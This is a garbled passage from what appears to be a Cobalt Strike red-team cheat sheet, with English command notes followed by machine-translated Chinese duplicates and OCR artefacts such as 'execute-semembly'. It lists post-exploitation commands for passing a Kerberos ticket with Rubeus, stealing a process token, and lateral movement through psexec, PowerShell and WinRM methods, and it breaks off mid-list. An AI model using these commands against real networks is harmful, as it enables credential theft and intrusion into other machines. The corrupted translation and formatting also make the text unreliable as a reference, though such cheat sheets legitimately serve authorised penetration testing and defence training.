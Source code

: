 execute-semembly c：\ path \ rubeus.exe ptt /luid：0x92a8c /ticket：[... base64-ticket ...]
### Finally, steal the token from that new process

###最后，从这个新过程中窃取令牌
steal_token &#x3C;pid>

# Lateral Movement
## If a token was created it will be used

##如果创建了一个令牌，它将被使用
jump [method] [target] [listener]
## Methods:
## psexec                    x86   Use a service to run a Service EXE artifact

## PSEXEC X86使用服务运行服务Exe Artifact
## psexec64                  x64   Use a service to run a Service EXE artifact

## psexec64 x64使用服务运行服务EXE ARTIFACT
## psexec_psh                x86   Use a service to run a PowerShell one-liner

## PSEXEC_PSH X86使用服务运行PowerShell单线
## winrm                     x86   Run a PowerShell script via WinRM

## WinRM X86通过WinRM运行PowerShell脚本
## winrm64                   x64   Run a PowerShell script via WinRM

## WinRM64 X64通过WinRM运行PowerShell脚本

remote-exec [method] [target] [command]

远程-Exec [方法] [target] [命令]
## Methods:
<strong>## psexec                          Remote execute via Service Control Manager
